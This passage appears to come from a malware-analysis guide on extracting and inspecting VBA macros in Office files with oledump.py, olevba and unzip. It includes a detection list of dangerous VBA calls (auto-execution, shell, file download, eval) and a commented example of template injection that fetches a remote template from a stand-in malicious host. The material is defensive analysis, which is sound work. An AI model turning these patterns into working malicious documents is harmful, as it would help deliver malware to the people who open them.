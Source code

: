 **Extract macros with oledump.py (Didier Stevens):**
```bash
# List all streams in OLE file
oledump.py document.docm

# Look for "M" indicator (macros present)
# Example output:
#  1:       114 '\x01CompObj'
#  2:      4096 '\x05DocumentSummaryInformation'
#  3: M    8192 'Macros/VBA/ThisDocument'  <- Macro present

# Extract macro from stream 3
oledump.py -s 3 -v document.docm

# Decompress corrupt VBA
oledump.py -s 3 --vbadecompresscorrupt document.docm

# Dump all macros to file
oledump.py -s 3 -v document.docm > macros.vba
```

**Extract macros with olevba (oletools):**
```bash
# Analyze and extract VBA macros
olevba document.docm

# Summary mode (flags suspicious keywords)
olevba --decode document.docm

# JSON output
olevba -j document.docm > macros.json

# Look for IOCs (URLs, IPs, file paths)
olevba --decode document.docm | grep -E "http|https|ftp|powershell|cmd|wscript"
```

**Suspicious VBA keywords to flag:**
- `AutoOpen`, `Document_Open`, `Workbook_Open` (Auto-execution)
- `Shell`, `CreateObject("WScript.Shell")` (Command execution)
- `URLDownloadToFile`, `MSXML2.XMLHTTP` (File download)
- `CreateObject("Scripting.FileSystemObject")` (File operations)
- `ExecuteStatement`, `Eval` (Dynamic code execution)
- `CallByName` (Obfuscation technique)

**Inspect .docx/.xlsx structure (ZIP format):**
```bash
# Extract Office Open XML document
unzip document.docx -d document_extracted/

# Check for template injection
cat document_extracted/word/_rels/document.xml.rels | grep "Target.*http"

# Look for external relationships (template injection)
# <Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
#              Target="http://malicious.com/template.dotm" TargetMode="External"/>

# Check for embedded objects
ls document_extracted/word/embeddings/
```
